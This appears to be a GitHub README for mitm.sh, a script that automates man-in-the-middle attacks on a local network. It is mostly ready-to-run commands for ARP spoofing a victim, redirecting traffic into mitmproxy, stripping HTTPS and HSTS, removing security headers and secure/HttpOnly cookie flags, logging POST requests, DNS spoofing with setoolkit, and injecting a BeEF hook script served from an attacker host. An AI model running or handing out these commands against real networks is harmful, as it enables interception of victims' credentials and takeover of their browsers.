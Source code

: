 MITM ATTACK WITH HTTP PROXYING (using [MITMPROXY](http://docs.mitmproxy.org/en/stable/) v1.0)
----------
  
You can run  **mitm.sh**:  
```bash
Usage: ./mitm.sh [-g] [-n] [-s] [-x] [-j <js payload url>] [-d] [-i <interface>] gateway_ip target_ip
       [-g] interactive mode for mitmproxy
       [-n] capture HTTP traffic
       [-s] capture HTTPS traffic
       [-x] stripping https
       [-j] inject js payload
       [-d] dnsspoof + setoolkit
       [-i] interface
```  
**/!\ Working with Mitmproxy v1.0. Mitmproxy will be automatically downloaded and installed.**  
  
Example of command for full interception (HTTPS/HSTS stripping when possible, otherwise Upstream Certificates):  
  
```
sudo ./mitm.sh -g -n -s -x -i wlan0 192.168.1.1 192.168.1.11
```
  
You also can inject a javascript payload (for example Beef payload):  
```
sudo ./mitm.sh -g -n -j http://192.168.1.10:3000/hook.js -i wlan0 192.168.1.1 192.168.1.11
```
  
Or run a DNS spoofing attack (will run dnsspoof and setoolkit):  
```
sudo ./mitm.sh -g -n -d -i wlan0 192.168.1.1 192.168.1.11
```
  
Of course you can run all these features together.  
  
While intercepting trafic, we also aims at:
 - Dropping the following request headers: *If-Modified-Since*,*Cache-Control*,*Upgrade-Insecure-Requests*
 - Dropping the following response headers: *Strict-Transport-Security*,*Public-Key-Pins*,*Content-Security-Policy*,*X-XSS-Protection*,*X-Frame-Options*
 - Dropping meta tag *Content-Security-Policy*
 - Dropping cookies flags *secure*, *HttpOnly*
 - Stripping https:// links and redirections
  
___
  
**mitm.sh** is automating the following steps:  

 - activate ip forwarding (all secured connections will be routed without interception):  
```bash
sysctl -w net.ipv4.ip_forward=1
```

 - avoid to send undesirable ICMP redirect messages
```bash
echo 0 | sudo tee /proc/sys/net/ipv4/conf/*/send_redirects
```

 - configure nat (8080 is the default listening port of mitmproxy):  
```bash
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-port 8080
```  
 - and if you want to add HTTPS capture:
```bash
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```  
*The REDIRECT target is used to redirect packets and streams to the machine itself. This means that we could for example REDIRECT all packets destined for the HTTP ports to an HTTP proxy (useful for transparent proxying).*  

 - run arp spoofing with calling the script **arpoison.sh**:  
```bash
xterm -geometry 100x25+1+200 -hold -e arpspoof -t [ip victim] [ip route]
xterm -geometry 100x25+1+300 -hold -e arpspoof -t [ip route] [ip victim]
```
*N.B: arpoison.sh can try to force the arp poisoning of some boxes*  

 - check if arp poisoning is working on both ways with **chk_poison.py**:  
```bash
python ./chk_poison.py [ip victim] [ip route]
```

 - run mitmproxy with our custom **sslstrip.py** module, the **injectjs.py** module and the **io_write_dumpfile.py** module. io_write_dumpfile.py is logging only relevant POST requests (if you want to log trafic, **-a \<logfilename\>**):  
```bash
mitmproxy -T --anticache --host --anticomp --noapp --script "./io_write_dumpfile.py ./requests.log" --script ./sslstrip.py --eventlog
```  
  
*N.B: mitmproxy (with option -w/-a for logging) will dump the whole flows in a tnetstrings format.*  
  
You can also run mitmdump (same as mitmproxy but non interactive):  
```bash
mitmdump -T --anticache --host --anticomp --noapp --quiet --script "./io_write_dumpfile.py ./requests.log" --script ./sslstrip.py"
```
 
 - if you want to extra log urls in a file:   
```bash
urlsnarf > ./urlsnarf.txt &
```
  
**Now go on a website with an unsecured (http) landing webpage and try to click on a link forwarding to a secure area. All trafic should stay clear between the victim and mitmproxy.  
If you injected a Beef hook thanks to the -j option, also check the browser hooked in your Beef panel.**  
  
**Don't hesitate to contribute to all of these modules.**
